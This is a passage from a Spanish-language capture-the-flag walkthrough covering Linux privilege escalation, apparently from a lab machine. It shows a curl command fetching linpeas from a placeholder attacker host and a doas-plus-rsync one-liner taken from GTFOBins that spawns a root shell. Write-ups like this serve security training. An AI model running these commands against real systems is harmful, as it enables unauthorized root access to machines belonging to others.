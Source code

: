 Para seguir enumerando subiremos `linpeas`, usaremos `curl` y `chmod` para ejecutar

```php
curl http://[IP-ATTACKER]/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
```

Ejecutando encontraremos un binario que es `doas` que se puede explotar

![20240103120403.png](20240103120403.png)

### Usuario :  root

Para poder explotar el binario `doas` debemos encontrar el archivo `doas.conf`, aqui puedes encontrar algunos recursos para que puedas revisar:

- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)
- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas)

El archivo `doas.conf` lo encontraremos el la ruta `/usr/local/etc/doas.conf` en donde encontraremos que el binario `rsync` se puede ejecutar con doas de manera privilegiada.

![20240103185252.png](20240103185252.png)

Para tener mas información sobre rsync podemos revisar [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#sudo). Encontraremos que para obtener una shell como el usuario root debemos ejecutar el siguiente comando:

```php
 doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

Ejecutamos y obtendremos una shell como el usuario root.

![20240103185358.png](20240103185358.png)

¡VAMOS!
Happy hacking :).

